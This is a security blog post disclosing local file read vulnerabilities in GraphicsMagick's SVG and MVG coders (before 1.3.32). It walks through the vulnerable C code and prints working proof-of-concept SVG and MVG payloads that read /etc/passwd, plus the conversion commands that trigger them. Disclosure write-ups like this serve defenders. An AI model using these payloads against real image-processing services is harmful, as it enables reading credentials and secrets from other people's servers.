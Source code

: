 # Security of Data processing libraries Part 2


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Tragick

[ImageTragick](https://imagetragick.com/) - multiple vulnerabilities in ImageMagick. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. GraphicsMagick library successfully fixed RCE but what about another vulnerabilities? Let's take a look on exploit.svg used at CVE-2016-3717.

```text
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Library will return error `Unable to open file` but what if we will change exploit to use another coder `label`? 

```bash
gm convert label:@/etc/passwd output.png
```

GraphicsMagick returns first line of file: `root:x:0:0:root:/root:/bin/bash`. So vulnerability exists and can be exploited on some coders. Let's take a look on Translate Text function. It have an interesting behavior: If text starts with '@' then try to replace it with the content of the file name which follows. 

```c
char *AmpersandTranslateText(const ImageInfo *image_info,
		Image *image, const char *formatted_text) {
/*
	If text starts with '@' then try to replace it with 
	the content of the file name which follows.
*/
  if ((*formatted_text == '@') && IsAccessible(formatted_text+1))
    {
      text=(char *) FileToBlob(formatted_text+1,&length,&image->exception);
      if (text == (char *) NULL)
        return((char *) NULL);
      TrimStringNewLine(text,length);
    }
  translated_text=TranslateText(image_info,image,text);
  if (text != (char *) formatted_text)
    MagickFreeMemory(text);

  return translated_text;
}
```

To exploit it malicious user shoud find all coders using it. Here we should take a little step back and return to Metadata. Please read [first part](https://d0ge.github.io/data-processing-libraries-part-two/). Translate function requests in attribute text when the blob is not open. This is really gross since it is assumed that the attribute is supplied by the user and the user intends for translation to occur.  However, 'comment' and 'label' attributes may also come from an image file and may contain arbitrary text.  As a crude-workaround, translations are only performed when the blob is not open. Is it secure to check blob state? It was found that SVG coder can be used to exploit it. We will skip a lot of C code and let's take a look on pseudocode:
- XML Parser end work
- CloseBlob(image) 
- MVG delegate start it work
- function SetImageAttribute(image,"comment",svg_info.comment) writes comment и title attributes to image.
- To exploit vulnerability malicious user should convert SVG to GIF, JPEG thumbnails with metadata information.

### Arbitary file read on image metadata
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```

Another interesting coder is MVG and image processing function

```c
case 'i':
{
if (LocaleCompare((char *) name,"image") == 0)
  {
  MVGPrintf(svg_info->file,"image Copy %g,%g %g,%g '%s'\n",
          svg_info->bounds.x,svg_info->bounds.y,svg_info->bounds.width,
          svg_info->bounds.height,svg_info->url);
  MVGPrintf(svg_info-&gt;file,"pop graphic-context\n");
  break;
  }
break;
}
```
What if malicious user can inject custom TextPrimitive inside ImagePrimitive at MVG coder. Let's take a look on SVG coder. When it reads `xlink:href` attribute single qout  `'` is not properly escaped and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file. 
Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

### Arbitary file read on SVG coder

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```


# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

